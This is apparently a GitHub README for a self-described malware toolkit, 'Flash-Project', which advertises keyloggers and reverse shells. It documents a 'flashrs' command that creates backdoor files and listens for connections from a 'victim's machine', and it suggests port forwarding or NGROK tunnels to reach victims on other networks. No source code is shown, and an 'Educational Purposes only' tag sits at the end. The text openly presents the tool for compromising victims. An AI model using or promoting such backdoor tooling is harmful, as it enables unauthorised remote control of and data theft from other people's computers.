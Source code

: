 # Flash-Project
This Project is all about malware (malicious software). In this repository you'll find everything from Keyloggers, up to Reverse Shells.
All is written and made by me, an individual (Sami Hindi).

# How to run
To run this All-Purpose Hacking-Tool, you must have python 3 or above installed, if you don't have python 3 or above installed on your machine,
<a href="https://www.python.org/downloads/">download the most recent version of python</a> from their official website.

# Docs
<h3><b>flashconsole</b></h3>
The "flashconsole" is used to work with Reverse Shells.
A Reverse Shell is when you get the victim computer to install malicious code or software on their system. When that file is run, you will have a fully interactive shell, where you can do all kidns of things.
Here are all the commands of the <b>flashconsole</b>:
<ul>
  <li>flashrs <--create/--listen> THOST=< TARGET_HOST > LHOST=< LISTENING_HOST > PORT=< PORT ></li>
    <ul>
      <li>--create  -  This will switch to creating mode, meaning it will create a backdoor file.</li>
      <li>--listen  -  Using --listen will switch to listening mode, which means the backdoor is installed on the victim's machine, but not run yet.
        <ul>
          <li>TARGET_HOST  -  TARGET_HOST specifies the hostname or IP the backdoor will send a connection to. This will only work if you and the victim are in the same network, except if you have Port-Forwarding enabled in your Router-Settings for that specific Port, or have setup an SSH-Tunnel (I recommend NGROK).</li>
          <li>LISTENING_HOST  -  This is the Bind-Address basically, it is usually localhost, which is set as the default.</li>
          <li>PORT  -  Exactly what it says, this will specify the port you're using to connect to the vitim's machine.
        </ul>
    </ul>
</ul>

# License
This Repository and all of it's contents are licensed under GNU General Public License V3.0

# Feedback
I would appreciate Feedback, since this Project was created a couple weeks ago. For Feedback, please write an E-Mail to fujiwarachoki@zohomail.eu.

Thanks and have fun using it!

<i>Educational Purposes only</i>
